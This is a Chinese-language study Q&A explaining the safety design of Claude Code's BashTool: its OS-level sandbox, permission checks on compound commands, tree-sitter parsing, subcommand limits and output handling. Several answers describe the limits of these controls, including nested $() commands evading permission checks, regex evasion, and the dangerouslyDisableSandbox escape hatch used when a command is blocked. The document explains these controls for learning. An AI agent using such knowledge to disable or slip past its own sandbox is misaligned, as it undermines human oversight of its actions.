**Q4：BashTool 的沙箱是如何防止恶意命令的？**

A：沙箱在操作系统层面限制命令的能力，不在语言层面。`SandboxManager` 适配器对应 macOS 上的 `sandbox-exec`（使用 SBPL/Bun sandbox profile）或 Linux 上的 seccomp，它们在内核层面限制系统调用（文件访问、网络访问、进程创建等）。即使命令绕过了权限检查（如通过 `$()` 替换嵌套恶意命令），沙箱仍然限制其实际能做的事。`dangerouslyDisableSandbox` 是逃生口，但受 `SandboxManager.areUnsandboxedCommandsAllowed()` 策略控制，在受管理环境中可禁用此选项。

**Q5：`isSearchOrReadBashCommand()` 如何处理复杂管道命令？**

A：函数调用 `splitCommandWithOperators()` 将命令分解为带操作符的段列表，然后逐段检查：操作符（`&&`、`||`、`|`、`;`）被跳过；重定向目标（`>` 后面的文件名）被跳过；语义中性命令（`echo` 等）在任意位置都忽略；若发现任何非搜索/读取/列目录的命令段，立即返回"非折叠"。只有管道中所有有效段都是搜索/读取/列目录命令时，才认定整个管道为可折叠的只读操作。分类失败（命令语法错误无法解析）时安全降级为"非折叠"。

**Q6：REPLTool 的懒加载为什么必须是"调用时"而非"模块级"？**

A：避免时间死区（Temporal Dead Zone, TDZ）中的循环依赖。模块导入链是：`collapseReadSearch.ts` 导入 `primitiveTools.ts`，`primitiveTools.ts` 导入 `FileReadTool.ts`，`FileReadTool.ts` 最终又会（间接地）导入涉及到 collapseReadSearch 逻辑的模块，形成循环。若在模块顶层立即引用 `FileReadTool`，在 JS 引擎完成所有模块初始化之前就访问了尚未初始化的绑定，抛出 "Cannot access before initialization" 错误。将常量改为函数（`getReplPrimitiveTools()`），使访问延迟到首次调用时，此时所有模块已初始化完成。

**Q7：为什么 tree-sitter AST 解析比正则表达式更适合复合命令安全分析？**

A：正则表达式有两个根本局限：（1）Shell 语法是上下文相关文法，单层正则无法准确识别嵌套结构（如 `$(cmd1 $(cmd2))` 中正则难以追踪括号配对）；（2）正则只能做字符串匹配，无法区分命令名、参数、重定向等语义角色。tree-sitter 生成完整 AST，每个节点都有明确的类型标签（`SimpleCommand`、`Pipeline`、`VariableAssignment` 等），可以精确提取"被执行的命令"而不误判参数字符串。此外，正则在面对精心构造的规避字符串时容易出现绕过，AST 解析的结构决定了规避更困难。

### 权衡与优化题

**Q8：BashTool 的流式输出如何防止超大输出填满内存？**

A：使用 `EndTruncatingAccumulator` 累积器，它在输出超过大小限制时截断开头内容，保留最新的输出（因为通常最后几行最相关，如错误信息）。同时 `maxResultSizeChars: 100,000`（约 100K 字符）触发工具结果持久化——超大输出写入临时文件（`toolResultStorage`），API 请求中用 `persistedOutputPath` 引用，避免每次 API 调用重复传输大量内容。这两层机制共同防止 OOM 和上下文溢出。`contentReplacementState` 在历史上下文管理层面进一步压缩，确保长会话不会因工具结果积累而撑爆 token 预算。

**Q9：为什么 PowerShellTool 是单独的工具而不是 BashTool 的参数？**

A：Shell 语义差异太大，统一处理会导致大量条件分支。PowerShell 有完全不同的安全模型（执行策略、脚本签名）、不同的危险命令（如 `Invoke-Expression`、`Invoke-Command`）、不同的权限规则匹配逻辑（`powershellPermissions.ts`）、不同的 AST 解析需求（`powershellSecurity.ts`）。将它们分离为独立工具，每个工具专注自己的安全边界和语义，避免了共享代码中过多的 `if (isWindows)` 分支，也使各自的测试更容易编写。

**Q10：子命令数量上限 50 是如何平衡安全与功能的？**

A：这是一个工程估算后的妥协值，而非理论上的最优解。绝大多数合法用例中，单条 Bash 命令组合的子命令不超过 10 个（如 `cmd1 && cmd2 | cmd3 | cmd4`）。50 这个上限足以覆盖所有常见场景，同时对以下威胁提供足够防护：（1）ReDoS 攻击：权限规则正则在 50 次内不会触发指数级回溯；（2）事件循环饥饿：50 次同步检查在 JavaScript 运行时中可快速完成（微秒级），不阻塞 UI 刷新；（3）复杂度爆炸：防止攻击者通过超复杂命令让权限检查本身成为性能瓶颈。超过 50 时不是硬拒绝，而是降级为"要求用户确认"，保留合法用户的使用路径。

### 实战应用题

**Q11：如何诊断 BashTool 命令被沙箱阻止的问题？**

A：沙箱拒绝通常表现为命令以非零退出码终止，stderr 包含沙箱错误信息（macOS 上通常是 `Operation not permitted` 或 `Sandbox: XXX deny`）。诊断步骤：查看 stderr 内容确认是沙箱拒绝；检查命令是否在排除列表中（用户设置 `sandbox.excludedCommands`）；若命令合法但需要沙箱放行，可使用 `dangerouslyDisableSandbox: true`（需要用户策略允许）；也可联系管理员在沙箱配置中添加例外规则。注意：排除命令列表不是安全边界，它只是便利性功能，实际安全靠权限系统。

**Q12：使用 `run_in_background` 时，AI 如何知道任务何时完成？**

A：后台任务完成后，框架自动生成通知消息（notification message），在主循环的下一个迭代中传递给模型。通知包含任务 ID、退出码、stdout/stderr 摘要。模型通过 `backgroundTaskId` 字段与原始工具调用关联，了解是哪个后台任务完成了。对于需要后台任务结果继续下一步的场景，模型会等待通知；对于"发射后不管"（fire-and-forget）的场景（如启动开发服务器），模型可以在等待期间继续其他工作。

**Q13：readFileState 不变量在实际开发中可能遇到哪些边界情况？**

A：三个常见边界情况：（1）外部工具修改文件后 AI 读取的是旧内容——`readFileState` 只跟踪"是否读过"，不跟踪"读取后文件是否被外部修改"，此时 `old_string` 可能匹配旧版本内容导致编辑失败，需要重新读取；（2）大文件分段读取——若 AI 只读取了文件的前 200 行（通过 `offset/limit`），`readFileState` 可能仍标记为"已读"，但 AI 对后续内容无感知，编辑时 `old_string` 只能精确匹配已读部分；（3）文件路径规范化——读取 `./src/foo.ts` 和编辑 `/absolute/path/src/foo.ts` 可能被视为不同文件，路径规范化逻辑需要处理相对路径/绝对路径/符号链接等情况。

---
> **版权声明**：源码版权归 [Anthropic](https://www.anthropic.com) 所有，本文档基于 Claude Code v2.1.88 source map 还原版本分析，仅供学习研究使用。文档内容采用 [CC BY-NC 4.0](https://creativecommons.org/licenses/by-nc/4.0/) 协议。
